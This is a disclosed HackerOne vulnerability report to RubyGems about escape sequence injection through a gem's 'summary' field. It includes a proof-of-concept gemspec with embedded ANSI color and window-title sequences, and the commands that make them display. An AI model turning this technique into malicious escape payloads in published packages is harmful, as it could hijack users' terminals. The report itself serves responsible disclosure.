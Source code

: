 # Escape sequence injection in "summary" field

## Report Details
- **Report ID**: 226335
- **URL**: https://hackerone.com/reports/226335
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-05-05T13:35:48.312Z
- **Disclosed**: 2017-08-30T23:20:55.044Z

## Reporter
- **Username**: mame
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rubygems

## Vulnerability Information
Seems we can include any escape sequence in the "summary" field of gemspec.  This allows attackers to inject escape sequences to a victim's terminal emulator.

## How to attack

1) An attacker creates a gem with summary string that includes malicious escape sequences, and push it to rubygems.org.
2) A victim executes `gem search attackers-gem -d`, and the malicious string is printed in the terminal emulator.

In general, this is considered vulnerable.  I'd like you to read [Terminal Emulator Security Issues](http://marc.info/?l=bugtraq&m=104612710031920&w=2) in detail.  In short, an attacker can exploit this, not only to surprise a victim with a rainbow string, but also to inject malicious command to a victim's terminal, which may lead to abitrary code execution.  Ruby WEBrick also handled a similar issue as [a vulnerability](https://www.ruby-lang.org/en/news/2010/01/10/webrick-escape-sequence-injection/).


## Proof of concept

1) Prepare the following gemspec.

~~~
Gem::Specification.new do |spec|
  spec.name     = "escape-sequence-injection-vulnerability"
  spec.version  = "0.0.1"
  spec.authors  = ["Yusuke Endoh"]
  spec.email    = ["mame@ruby-lang.org"]
  spec.summary  = "foo\e[31mbar\e[0mbaz \e]2;BOOM!\a"
  spec.homepage = "http://example.com/"
  spec.license  = "MIT"
end
~~~

2) Run the following commands

~~~
gem build escape-sequence-injection-vulnerability.gemspec
gem install escape-sequence-injection-vulnerability-0.0.1.gem
~~~

3) Run the following command.

~~~
gem query escape-sequence-injection-vulnerability -d && sleep 10
~~~

You will see a summary line "foobarbaz" (with "bar" red), and its window title changed "BOOM!".

## Attachments
No attachments
